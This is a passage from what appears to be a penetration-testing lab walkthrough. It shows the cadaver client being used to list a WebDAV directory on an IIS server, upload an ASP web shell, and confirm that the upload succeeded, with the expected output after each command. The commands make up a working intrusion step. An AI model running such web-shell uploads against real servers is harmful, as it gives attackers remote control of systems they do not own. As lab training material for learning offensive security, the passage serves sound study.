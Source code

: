 **Expected Lab Output:**
```
dav:/webdav/> 
```

**Analysis:** Successful authentication indicated by the `dav:/webdav/>` prompt, confirming access to the WebDAV directory.

#### Phase 2: Directory Exploration and Assessment

**Step 3: Explore WebDAV Directory Structure**
```bash
ls
```

**Expected Lab Output:**
```
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_AqOeSdckMtf                   0  Jul 10 09:39
        AttackDefense.txt                       13  Jan  2  2021
        web.config                             168  Jan  2  2021

dav:/webdav/> 
```

**Step 4: Check Current Working Directory**
```bash
pwd
```

**Expected Lab Output:**
```
Current collection is `/webdav/'.
```

**Analysis:** Directory contains the DavTestDir created by previous davtest scan, along with existing files AttackDefense.txt and web.config, indicating a Windows IIS environment.

#### Phase 3: ASP Backdoor Upload and Verification

**Step 5: Upload ASP Web Shell**
```bash
put /usr/share/webshells/asp/webshell.asp
```

**Expected Lab Output:**
```
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

dav:/webdav/> 
```

**Step 6: Verify Upload Success**
```bash
ls
```

**Expected Lab Output:**
```
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_AqOeSdckMtf                   0  Jul 10 09:39
        AttackDefense.txt                       13  Jan  2  2021
        web.config                             168  Jan  2  2021
        webshell.asp                          1362  Jul 10 09:42

dav:/webdav/> 
```
